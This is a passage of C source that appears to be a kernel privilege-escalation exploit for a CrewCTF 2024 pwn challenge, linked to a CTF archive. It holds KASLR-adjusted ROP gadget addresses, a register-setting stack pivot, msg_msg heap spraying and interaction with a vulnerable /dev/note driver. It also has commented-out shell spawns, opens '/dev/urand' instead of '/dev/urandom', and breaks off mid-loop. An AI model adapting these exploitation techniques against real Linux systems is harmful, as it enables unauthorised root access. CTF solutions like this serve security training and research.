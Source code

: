 ```c
{
    return syscall(__NR_keyctl, KEYCTL_REVOKE, keyid, 0, 0, 0);
}
void rand_str(char *dest, size_t length)
{
    int urand_fd = open("/dev/urand",0);
	char charset[] = "0123456789"
	                 "abcdefghijklmnopqrstuvwxyz"
	                 "ABCDEFGHIJKLMNOPQRSTUVWXYZ";
	read(urand_fd, dest, length);
	for(int i=0; i<length; i++) {
		int idx = ((int)dest[i]) % (sizeof(charset)/sizeof(char) - 1);
		dest[i] = charset[idx];
	}
	dest[length] = '\0';
    close(urand_fd);
}
size_t var_poprbp;
size_t var_leave;
size_t var_rbp;
void tainRegs(u64 base,u64 heap){
    var_poprbp = 0xffffffff8216c820 - NO_ASLR_BASE + base; 
    var_leave = 0xffffffff8159c1a3 - NO_ASLR_BASE + base; 
    var_rbp = heap+0x518;
    __asm__("mov rax, 0x9999999999999999;"
    "mov rbx, 0x9999999999999991;"
    "mov rcx, 0x9999999999999992;"
    "mov rdx, 0x9999999999999993;"
    "mov rdi, 0x9999999999999994;"
    "mov rsi, 0x9999999999999995;"
    "mov r8,  0x9999999999999996;"
    "mov r9,  0x9999999999999997;"
    "mov r10, 0x9999999999999998;"
    "mov r11, 0x9999999999999999;"
    "mov r12, 0x999999999999999a;"
    "mov r13, 0x999999999999999b;"
    "mov r14, 0x999999999999999c;"
    "mov r15, 0x999999999999999d;"
    "leave;"
    "ret;");
}
int main(){
    // system("/bin/sh");
    int mids[0x100]  = {};
    for( int i = 0 ; i < 0x100 ; i ++)
        mids[i] = msgGet();
    // shell();
    char * trash = dp('a',0x8000);
    libxInit();

    fd = open("/dev/note",2);

    msgSpray(0xfd0,0x100,trash);
    msgSpray(0xd0,0x100,trash);
    void * payload = p64(0xdeadbeefdeadbeef);

    for(int i = 0 ; i < 0x8; i++)
        add(0x8000);
    for(int i = 0 ; i < 0x8; i++)
        del(i);
    for( int i = 0 ; i < 0x100 ;i ++)
    {
        memcpy(trash,p64(0xdead000+i),8);
```

[0]: https://github.com/sajjadium/ctf-archives/tree/0610daa3bdd02bc9056b84fdd69f96132ce27c2f/ctfs/CrewCTF/2024/pwn/KUlele
[1]: TBD